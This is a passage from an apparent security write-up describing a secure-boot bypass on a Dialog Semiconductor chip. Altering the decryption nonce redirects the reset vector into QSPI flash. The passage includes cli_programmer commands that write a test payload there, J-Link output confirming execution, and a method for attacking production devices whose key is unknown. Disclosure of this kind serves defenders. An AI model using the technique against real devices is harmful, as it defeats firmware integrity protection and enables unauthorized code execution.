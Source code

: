 Normally, this configuration would decrypt to `2000247000000201200003d9200003f1` making the `reset` vector `00000201`. By modifying the `Nonce` to be `0192030405060708`, the value decrypts to `dd7ea2fd362cf67929051faba0b918be` making the `reset` vector `362cf679`, meeting the criteria of an address existing within the QSPI mapping. This can be confirmed by loading the image onto a device, writing an example payload to the QSPI device offset (`0x2cf679`) and inspecting the system after a reset:

Writing a `BKPT #255` to the flash device:

```
cli_programmer.exe COM6 write_qspi_bytes 0x2cf679 0xbe 0xff
cli_programmer 1.27
Copyright (C) 2015-2021 Dialog Semiconductor

Using serial port COM6 at baud rate 1000000.
bootloader file not specified, using internal uartboot.bin

Writing to address: 0x002cf679 offset: 0x00000000 chunk size: 0x00000002
done.
```

Debug reset showing `reset` address:

```
J-Link>r
Reset delay: 0 ms
Reset type NORMAL: Resets core & peripherals via SYSRESETREQ & VECTRESET bit.
Reset: Halt core after reset via DEMCR.VC_CORERESET.
Reset: Reset device via AIRCR.SYSRESETREQ.
J-Link>mem32 0,2
00000000 = DD7EA2FD 362CF679  <----- our reset value
```

Stepping execution confirms execution of code:
```
J-Link>s
362CF678:   FF BE              BKPT      #255
```

When attacking a production device where the key is unknown, the attack can be executed by updating the `Nonce` and monitoring the SPI bus while the system boots until a modified `Nonce` produces a SPI read to an address that is outside the signed firmware range.
